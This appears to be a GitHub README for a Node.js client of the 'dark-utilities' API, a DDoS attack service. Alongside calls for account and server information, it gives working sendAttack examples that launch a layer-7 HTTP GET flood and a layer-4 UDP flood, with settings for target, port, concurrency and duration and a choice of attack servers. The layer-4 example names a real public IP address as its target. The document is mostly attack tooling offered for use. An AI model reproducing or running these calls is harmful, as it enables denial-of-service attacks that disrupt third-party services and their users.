 # Dark-Utilities API Node-Js
 Description :
   * -> Using the dark-utilities API in node js
   * -> Utilisation de l'API dark-utilities en node js

 Dependencies npm :
  * [phin](https://www.npmjs.com/package/phin "lien")

 Require :
  * -> [Node-Js](https://www.digitalocean.com/community/tutorials/how-to-install-node-js-on-ubuntu-20-04-fr)
 
Installation :
  * To use it you need to have dark-utilities and install phin

Get User Information
```js
darkutilities.getUserInfo().then(info => {
    console.log(info);
});
```

Get Server List
```js
darkutilities.getServerList().then(server => {
    console.log(server);
});
```

Get Server Info
```js
darkutilities.getServerInfo('fd06d2f5192fd94341543d15ae8158bb').then(server => {
    console.log(server);
});
```

Send attack ddos-layer7
```js
darkutilities.sendAttack('ddos-layer7', {
    'method': 'GET',
    'target': 'https://exemple.com/hit',
    'concurrents': 100,
    'time': 20
}, [
    { "server_id": "fd06d2f5192fd94341543d15ae8158bb", 'server_selected': true },
]).then(attack => {
    console.log(attack);
});
```

Send attacks ddos-layer4
```js
darkutilities.sendAttack('ddos-layer4', {
    'method': 'UDP',
    'target': '1.1.1.1',
    'port': 80,
    'concurrents': 10,
    'time': 20
}).then(attack => {
    console.log(attack);
});
```

Get Attack List
```js
darkutilities.getAttacks().then(attacks => {
    console.log(attacks);
});
```
